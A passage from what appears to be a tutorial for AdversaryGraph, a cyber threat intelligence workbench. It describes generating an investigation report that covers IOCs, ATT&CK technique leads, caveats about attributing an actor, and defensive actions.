investigation.
Step 13: Generate The Report


After evidence review, generate the report from the active Investigation workspace. A strong output includes the original log findings, IOC type, suspiciousness rationale, source evidence, TTP leads, actor-lead caveats, kill-chain interpretation, recommended pivots, and defensive actions.
Why This Workflow Matters
Most platforms can list alerts. The value here is the workflow: extract evidence, enrich it, preserve the uncertainty, connect it to ATT&CK, and create a report that another analyst can audit.
AdversaryGraph is not an attribution engine. It is a workbench for producing better CTI and detection handoff faster while keeping source context visible.